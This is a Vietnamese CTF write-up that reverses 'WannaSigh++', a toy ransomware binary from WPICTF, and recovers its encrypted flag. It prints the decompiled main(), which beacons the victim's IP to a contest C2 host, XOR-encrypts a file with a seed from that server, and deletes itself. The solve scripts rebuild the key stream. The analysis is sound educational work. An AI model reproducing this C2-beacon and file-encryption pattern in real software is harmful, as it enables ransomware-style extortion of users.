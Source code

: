 # Challenge

<p align="center">
  <img src="./wanna1.png" alt="Entry point"/>
</p>

# File: [wannasigh++.elf](./wannasigh++.elf) [your-flag.ransomed](./your-flag.ransomed)

# Solution:

```bash
┌──(nguyenguyen753㉿kali)-[~/CTF/wpictf/wannaSigh]
└─$ file wannasigh++.elf 
wannasigh++.elf: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=58e49acb6fec47ab8873a7c2a24c9834ce838c0d, for GNU/Linux 3.2.0, not stripped
```

Nhìn có vẻ bình thường, mình tiếp tục bằng cách dùng ghidra xem sơ qua đoạn chương trình:

```c++
undefined8 main(void)

{
  char cVar1;
  uint16_t uVar2;
  int iVar3;
  ssize_t sVar4;
  long in_FS_OFFSET;
  int local_188;
  int local_184;
  undefined4 local_180;
  undefined4 local_17c;
  char *local_178;
  hostent *local_170;
  undefined8 local_168;
  undefined8 local_160;
  undefined8 local_158;
  undefined8 local_150;
  undefined local_148;
  undefined8 local_138;
  undefined8 local_130;
  undefined4 local_128;
  undefined2 local_124;
  undefined local_122;
  undefined local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_158 = 0x79646165726c412e;
  local_150 = 0x65706f6e2e6e6152;
  local_148 = 0;
  cVar1 = exists((char *)&local_158);
  if (cVar1 != '\x01') {
    system("touch .AlreadyRan.nope");
    local_178 = (char *)malloc(0xf);
    getIPStr(local_178);
    local_138 = 0x5f68686868616142;
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    strcat((char *)&local_138,local_178);
    free(local_178);
    local_184 = socket(2,1,0);
    local_180 = 0x48b2;
    local_170 = gethostbyname("wannasigh109fn10fn48vh.wpictf.xyz");
    local_160 = 0;
    local_168 = 2;
    memmove((void *)((long)&local_168 + 4),*local_170->h_addr_list,(long)local_170->h_length);
    uVar2 = htons((uint16_t)local_180);
    local_168._0_4_ = CONCAT22(uVar2,(sa_family_t)local_168);
    local_168 = local_168 & 0xffffffff00000000 | (ulong)(uint)local_168;
    iVar3 = connect(local_184,(sockaddr *)&local_168,0x10);
    if (iVar3 != 0) {
      printf("The WannaSigh++ C2 server appears to be down.");
    }
    sVar4 = write(local_184,&local_138,0x17);
    local_17c = (undefined4)sVar4;
    local_138 = 0;
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    sVar4 = read(local_184,local_118,0x100);
    local_17c = (undefined4)sVar4;
    close(local_184);
    local_188 = 0x2a;
    __isoc99_sscanf(local_118,&DAT_00102076,&local_188);
    encrypt(local_188);
    display();
  }
  system("rm -f wannasigh++.elf");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Hàm `encrypt()` có vẻ khá thú vị, ta xem thử hàm này:

<p align="center">
  <img src="./wanna2.png" alt="Entry point"/>
</p>

Tới đây ta đã hiểu cách mã hoá của hàm: đọc plaintext trong file `flag.txt`, sau đó lấy các số trong hàm `rand()` dựa trên `seed` được truyền vô hàm, sau đó đem `xor` từng kí tự trong plaintext với các số từ hàm `rand()`, sau đó ciphertext sẽ được ghi vào file `your-flag.ransomed`. Từ đây ta lần tham số được truyền vào hàm `srand()`, cũng như là `seed`.  
Để lần được `seed`, ta xem phải xem lại đoạn chương trình trước đó

<p align="center">
  <img src="./wanna3.png" alt="Entry point"/>
</p>

Mình nhìn sơ hàm `getIPStr()`:

<p align="center">
  <img src="./wanna4.png" alt="Entry point"/>
</p>

Kết hợp với debug, mình rút ra một vài thứ từ đoạn chương trình trên:
  - Hàm `getIPStr()` có mục đích lấy IPv4 của máy tính mình bằng hàm `curl -s https://bot.whatismyipaddress.com`
  - Sau khi có địa chỉ IPv4 của máy tính mình, đoạn chương trình tiếp theo sẽ kết nối với host `wannasigh109fn10fn48vh.wpictf.xyz` thông qua port `0x48b2` hay `18610`, sau đó truyền chuỗi `Baahhhh_ + IPv4`, trong đó `IPv4` là IPv4 của máy tính cá nhân của mình. Sau đó hàm sẽ trả về một số, và số đó chính là seed

<p align="center">
  <img src="./wanna5.png" alt="Entry point"/>
</p>

```bash
┌──(nguyenguyen753㉿kali)-[~/CTF/wpictf/wannaSigh]
└─$ nc wannasigh109fn10fn48vh.wpictf.xyz 18610      
Baahhhh_xx.xxx.xxx.xxx
1618617746
```

Từ đó mình sẽ viết script để có thể tìm flag từ file `your-flag.ransomed`:

# random.c
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
	srand(1618617746);
	for (int i=0; i<104; i++)
		printf("%d, ", rand());
}
```

# script.py
```python
f = open('encFlag', 'rb')
a = [i for i in f.readlines()[0]]

b = [896477183, 955207521, 24321907, 464893680, 1683277536, 1610985375, 1184200633, 1364516228, 985992837, 1507220167, 1156534586, 1811523396, 1923681696, 1530304704, 516114307, 1796450039, 242833060, 1805362011, 194104249, 2136184217, 953565787, 2016360961, 513989520, 141054934, 273597823, 366860163, 650686429, 353902088, 452966047, 96162748, 1266435010, 1349443231, 1051370269, 1290756918, 1814336911, 587164157, 754258645, 851053896, 1951680385, 1740251482, 210790416, 960731323, 1404291230, 2134472112, 343552380, 1920405537, 1783438503, 586385440, 1578283900, 1977542752, 575086009, 384366040, 1846420066, 1089075529, 525420974, 2120017889, 1455935692, 1176107403, 326436330, 1908901740, 1272270151, 1592871340, 1110861323, 176156772, 736144610, 777714586, 763320929, 1490403255, 1628768482, 567517666, 1083171090, 1839558898, 1528248990, 339978672, 1826547363, 1871801370, 112900562, 1462502218, 310703162, 1691184462, 1292561323, 885789171, 2075550502, 991497741, 1974864700, 453487828, 964031982, 1283316744, 1629595232, 1290468312, 1044734836, 754381735, 735856005, 8112511, 930538508, 1472000615, 785827097, 1693859437, 814920223, 267111932, 113893456, 1898091313, 2106670830, 1642142446]
randoms = [(i & 255) for i in b]

for i in range(len(a)):
	char = a[i] ^ randoms[i]
	print(chr(char), end ="")
```

`WPI{backup-your-files}`
